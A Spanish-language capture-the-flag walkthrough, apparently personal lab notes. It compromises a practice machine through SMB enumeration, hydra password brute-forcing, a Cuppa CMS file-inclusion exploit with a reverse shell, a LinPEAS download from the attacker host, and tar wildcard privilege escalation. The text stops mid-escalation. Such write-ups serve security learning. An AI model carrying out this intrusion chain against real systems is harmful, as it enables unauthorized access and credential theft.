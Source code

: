 - Empezamos enumerando los puertos con ==nmap==, teniendo los puertos 139, 80, 445, 143, 110 y 22, siendo el 445 de importancia ya que es un puerto donde se ejecuta ==samba==.
- Ahora usamos ==gobuster== para encontrar algún directorio.
- Podemos ver que se ejecuta ambien ==smbd== así que vamos a usar ==smbclient==
```
smbclient -L (IP_VICTIMA)
```


![](../Imagenes/Pasted%20image%2020250125193854.png)

- Vamos a ver el directorio ==anonymous==. Para eso utilizamos el siguiente comando:
```
smbclient //(IP_VICTIMA)/(NOMBRE_DIRECTORIO)
```


![](../Imagenes/Pasted%20image%2020250125194134.png)

- Estamos dentro a ese recurso.
- Para listar usamos el comando `dir`

![](../Imagenes/Pasted%20image%2020250125194220.png)

- Ahora sabemos que tenemos a nuestra disposición esta información por el recurso ==anonymous==.
- Ahora, vamos a descargar todos los archivos de ese recurso con el siguiente comando:
```
smbget -R smb://(IP_VICTIMA)/(RECURSO)
```
- Si no resulta este comando usamos solo el comando `get.

![](../Imagenes/Pasted%20image%2020250125200725.png)

- Descargamos un archivo con contraseñas.
- Gobuster nos arrojo una pagina de correos.

![](../Imagenes/Pasted%20image%2020250125201111.png)

- Ya que tenemos la contraseña y un posible usuario, vamos a usar burpsuite para entrar.

![](../Imagenes/Pasted%20image%2020250125201400.png)

- Ahora nos vamos al terminal y usamos ==hydra==.

![](../Imagenes/Pasted%20image%2020250125202020.png)

- La primera parte después del " es la URL que cambia cuando nos equivocamos con la contraseña.

![](../Imagenes/Pasted%20image%2020250125202133.png)

- Ya tenemos credenciales.
- Ya dentro y con esta password

![](../Imagenes/Pasted%20image%2020250125202457.png)

- Podemos entrar al smb.
```
smbclient -U (NOMBRE_USUARIO) //(IP_VICTIMA)/(RECURSO)
```


![](../Imagenes/Pasted%20image%2020250125202808.png)

- Buscando encontramos este directorio

![](../Imagenes/Pasted%20image%2020250125203333.png)

- Así que vamos a enumerar rutas bajo esta ruta.
- Usamos ==gobuster==
```
gobuster dir -u http://10.10.33.74/45kra24zxs28v3yd/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 40 -r
```
- Tenemos otro directorio.

![](../Imagenes/Pasted%20image%2020250125203712.png)


![](../Imagenes/Pasted%20image%2020250125203738.png)

- Tenemos 2 posibles credenciales.
- En este caso ninguna de las que ya tenemos funciona.
- Vamos a buscar un sploit que nos funciona.
- Vamos a la pagina exploit-db.com
- Buscamos por Cuppa.

![](../Imagenes/Pasted%20image%2020250125204037.png)

-  El exploit nos muestra 2 formas posibles de explotarlo

![](../Imagenes/Pasted%20image%2020250125204517.png)

- Siendo el primero que nos permite ejecutar programas de la maquina atacante desde la maquina victima y el segundo si ponemos /alerts hacia adelante en la URL nos permite visualizar el archivo passwd donde podremos sacar algunas credenciales.
- En este caso vamos a seleccionar la primera.
- Vamos a hacer un one liner (reverse) con nano.
- Ya creado, con python levantamos un servidor web.
```
python3 -m http.server 80
```
- Ya creado, copiamos la primera ruta y la pegamos en el URL

![](../Imagenes/Pasted%20image%2020250125205826.png)

- Ya estamos dentro.

![](../Imagenes/Pasted%20image%2020250125210457.png)

- Vamos a usar la herramienta ==LinPEAS== vamos a buscar vulnerabilidades en la maquina.
- Como vemos que la maquina victima es x64 tenemos que descargarnos la herramienta para esa maquina.

![](../Imagenes/Pasted%20image%2020250125210904.png)

- Ahora tenemos que subir el ejecutable con python.
- Para pasarlo, desde la maquina victima usamos el siguiente comando:
```
wget http://(IP_ATACANTE):(PUERTO)/(NOMBRE_ARCHIVO)
```
==Se recomienda descargarlo en el fichero /tmp ya que es menos conflictivo al momento de pasarse archivos.==


![](../Imagenes/Pasted%20image%2020250125211518.png)

- Le damos permiso de ejecución.
- Ejecutamos
```
./lin
```

![](../Imagenes/Pasted%20image%2020250125212258.png)

- Vamos a utilizar esto que nos dice que cada 1 minutos se ejecuta backup.sh en usuario root.
- Hay que acceder a esa ruta.

![](../Imagenes/Pasted%20image%2020250125212418.png)

![](../Imagenes/Pasted%20image%2020250125212455.png)

- Ya que podemos ver el ejecutable vamos a usar `cat` para leer el ejecutable.

![](../Imagenes/Pasted%20image%2020250125212616.png)

- Como podemos ver:
	- Nos crea un /bin/bash.
	- Se mueve a la carpeta /html
	- Usa `tar` que sirve para extraer los archivos acompañado de `cf` que agrupa varios archivos en un archivo comprimido que en este caso seria backup.tgz
- Ahora es la escala de privilegios.
- Para explicar esto nos meteremos a esta pagina: https://www.hackingarticles.in/exploiting-wildcard-for-privilege-escalation/
- Vamos a ocupar este método.

![](../Imagenes/Pasted%20image%2020250125213519.png)

- La segunda línea y tercera.
- Estos archivos lo tenemos que crear en /var/www/html

![](../Imagenes/Pasted%20image%2020250125213737.png)


![](../Imagenes/Pasted%20image%2020250125213838.png)


- Ahora nos creamos un archivo shell.sh con nano.
- Agregamos este comando.

![](../Imagenes/Pasted%20image%2020250125214718.png)


![](../Imagenes/Pasted%20image%2020250125215417.png)

